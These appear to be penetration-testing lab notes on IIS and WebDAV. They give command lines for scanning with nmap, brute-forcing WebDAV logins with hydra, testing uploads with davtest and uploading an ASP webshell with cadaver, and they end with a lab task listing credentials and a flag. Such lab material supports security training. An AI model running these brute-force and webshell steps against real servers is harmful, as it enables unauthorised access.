#### Internet Information Services
	- Used with the Windows NT Family
	- Hosts websites/apps, contains a GUI for admins
	- For Dynamic and Static webpages
	- Configured to run 80/443
	- Supported by asp, aspx, config, php extensions


#### Web Based Distributed Authoring and Versioning
	- Allows users to collaborate and manage files on remote servers
	- A web servers acts as a file server
	- Runs on IIS on port 80/443
	- Username and password authentication

#### WebDAV Exploitation
	- See if it runs IIS web server
	- Perform Brute force to get credentials
	- Authenticate with credentials then upload payload


#### Tools 
Davtest - scans, authenticates and exploits a WebDAV server

Cadaver - authenticates with WebDAV servers, allows user to upload and modify data on WebDAV server 

nmap
hyrda


#### Commands

scan target
```
nmap -sV -sC target_ip
```

Check if WebDAV is configured
```
nmap -sV -p 80 --script=http-enum target_up
```

Brute force authentication
```
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt target_ip http-get /webdav/
```

Test webadv connection
```
davtest -url http://target_ip/webdav
```

Check which files are can be uploaded and executed
```
davtest -auth username:password -url http://target_ip/webdav
```

Access contents of webdav directory
```
cadaver http://target_ip/webdav
```

Access asp webshell from local, upload to remote server
```
put /usr/share/webshells/asp/webshell/asp
```

## LabYour task is to fingerprint the service using the tools available on the Kali machine and exploit using Davtest and Cadaver tools.

[Davtest](https://code.google.com/archive/p/davtest/):

-   Davtest is a WebDAV scanner that sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files. The tool also tried to execute uploaded files and gives us an output of successfully executed files.

[cadaver](https://github.com/grimneko/cadaver):

-   Cadaver is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.

**Objective:** Exploit the service and retrieve the flag!

The following username and password may be used to access the service:

| Username | Password | | bob | password_123321 |

### Objectives
1. 880cc175b9c0f1b6a831c399e269772661